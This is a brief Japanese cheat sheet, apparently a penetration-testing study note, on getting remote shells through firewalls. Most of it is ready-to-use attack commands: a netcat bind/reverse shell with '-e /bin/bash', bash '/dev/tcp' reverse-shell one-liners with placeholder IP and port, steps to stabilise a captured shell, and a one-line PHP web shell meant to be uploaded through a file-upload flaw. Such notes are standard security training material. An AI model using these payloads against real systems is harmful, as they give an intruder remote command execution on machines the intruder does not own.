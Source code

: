 # 遠隔からのシェル

* ファイアウォールでインバウンド通信で接続とポートが許可されている場合はバインドシェルが可能
* アウトバウンド通信は許可されている場合が多いためリバースシェルはファイアウォールを回避しやすい。
* バインドシェル・リバースシェル `netcat`を使用

1. 待ち受け　`nc -vlp 1027`
2. 接続     `nc -v 192.168.XXX.XXX 1027 -e /bin/bash` (/bin/bashのところはwindowsならcmd.exe)
3. ncがない場合の接続
    1. `bash -i >& /dev/tcp/[IPアドレス/[ポート番号] 0>&1`
    2. `bash -c 'bash -i >& /dev/tcp/[IPアドレス/[ポート番号] 0>&1'`
4. シェルの安定化
    1. `python3 -c 'import pty; pty.spawn("/bin/bash")'`
    2. `Ctrl-z`
    3. `stty raw -echo; fg`
    4. `export SHELL=[your shell]`
    5. `export TERM=[your terminal]`

* Webシェル

1. 入力を待ち受けできるphpファイルを作成しFile Uploadの脆弱性を利用しアップロード
2. アップしたphpファイルを利用してweb経由でコマンド実行
    `<?php system($_GET["cmd"]); ?>`

